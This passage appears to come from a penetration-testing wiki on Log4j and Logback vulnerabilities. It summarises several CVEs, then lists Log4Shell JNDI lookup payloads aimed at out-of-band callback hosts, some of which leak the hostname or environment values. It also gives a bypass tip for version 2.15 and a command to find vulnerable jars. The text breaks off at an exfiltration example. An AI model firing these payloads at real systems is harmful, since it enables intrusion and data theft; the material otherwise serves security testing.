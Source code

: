 ### [[https://nvd.nist.gov/vuln/detail/CVE-2021-42550|CVE-2021-42550]] **\[Moderate]**

This vulnerability affects the **Logback logging framework**, a successor to Log4j 1.x. Previously thought to be safe, the framework was found vulnerable, and newer versions (1.3.0-alpha11 and 1.2.9) have been released to address the issue.

### **CVE-2021-45105** **\[High]**

Log4j 2.16.0 contains a DoS flaw, prompting the release of `log4j 2.17.0` to fix the CVE. Further details are in BleepingComputer's [[https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/|report]].

### [[https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/|CVE-2021-44832]]

Affecting log4j version 2.17, this CVE requires the attacker to control the configuration file of log4j. It involves potential arbitrary code execution via a configured JDBCAppender. More details are available in the [[https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/|Checkmarx blog post]].

## Log4Shell Exploitation

### Discovery

This vulnerability is very easy to discover if unprotected because it will send at least a **DNS request** to the address you indicate in your payload. Therefore, payloads like:

- `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (using [[https://canarytokens.org/generate)|canarytokens.com]]
- `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (using [[https://github.com/projectdiscovery/interactsh)|interactsh]]
- `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (using Burp Suite)
- `${jndi:ldap://2j4ayo.dnslog.cn}` (using [[http://dnslog.cn)|dnslog]]
- `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` using (using [[https://log4shell.huntress.com)|huntress]]

Note that **even if a DNS request is received that doesn't mean the application is exploitable** (or even vulnerable), you will need to try to exploit it.

> [!TIP]
> Remember that to **exploit version 2.15** you need to add the **localhost check bypass**: ${jndi:ldap://**127.0.0.1#**...}

#### **Local Discovery**

Search for **local vulnerable versions** of the library with:

```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```
```
### **Verification**

Some of the platforms listed before will allow you to insert some variable data that will be logged when it’s requested.\
This can be very useful for 2 things:

- To **verify** the vulnerability
- To **exfiltrate information** abusing the vulnerability

For example you could request something like:\
```